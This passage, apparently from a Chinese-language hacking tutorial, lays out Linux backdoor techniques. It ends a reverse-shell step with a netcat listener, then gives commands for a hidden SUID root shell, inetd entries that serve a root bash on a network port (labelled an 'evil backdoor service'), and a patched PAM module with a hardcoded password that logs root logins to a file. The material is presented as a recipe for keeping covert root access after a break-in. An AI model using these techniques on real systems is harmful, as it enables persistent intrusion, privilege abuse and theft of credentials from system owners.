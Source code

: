 然后在 8.8.8.8 的服务器上使用 NC 接收 Shell 即可。

`nc -vv -lp 53`

**SUID shell**

首先, 先切换成为root用户，并执行以下的命令:
```bash
dawg:~# cp /bin/bash /.woot
dawg:~# chmod 4755 /.woot
dawg:~# ls -al /.woot
-rwsr-xr-x 1 root root 690668 Jul 24 17:14 /.woot
```
当然, 你也可以起其他更具备隐藏性的名字,我想猥琐并机智的你，肯定能想出很多好的名字的。
文件前面的那一点也不是必要的，只是为了隐藏文件( 在文件名的最前面加上“.”，就可以在任意文件目录下进行隐藏) .
```bash
#现在，做为一个普通用户，我们来启用这个后门:
id
    uid=1000(fw) gid=1000(fw) groups=1000(fw)
id
    uid=1000(fw) gid=1000(fw) groups=1000(fw).woot-2.05b$
#为什么不行呢? 因为 bash2 针对 suid有一些护卫的措施. 但这也不是不可破的:
```
```bash
/.woot -p
id
    uid=1000(fw) gid=1000(fw) euid=0(root) groups=1000(fw)
#使用-p参数来获取一个root shell. 这个euid的意思是 effective user id
#这里要特别注意的是，作为一个普通用户执行这个SUID shell时，一定要使用全路径。
```
如何查找那些具有SUID 的文件: `dawg:~# find / -perm +4000 -ls` 这时就会返回具有SUID位的文件啦。

**远程后门**

```vim
vim /etc/inetd.conf
    #discard stream tcp nowait root internal
    #discard dgram udp wait root internal
    daytime stream tcp nowait root /bin/bash bash -i

inetd
然后就可以用nc来爆菊
```
可以修改/etc/services文件，加入以下的东西
```vim
vim /etc/services
    woot 6666/tcp #evil backdoor service
vim /etc/inetd.conf
    woot stream tcp nowait root /bin/bash bash -i
```

**PAM后门**

主要思路:pam_unix_auth.c打补丁安装到正常的PAM模块中。
1、获取目标系统所使用的PAM版本：
`rpm -qa |grep pam`
2、编译安装PAM
3、将本地pam_unix_auth.c文件通过打补丁方式，编译生成。
4、编译完后的文件在：modules/pam_unix/.libs/pam_unix.so，后门密码为root123,并会在/tmp/pslog记录root登录密码。
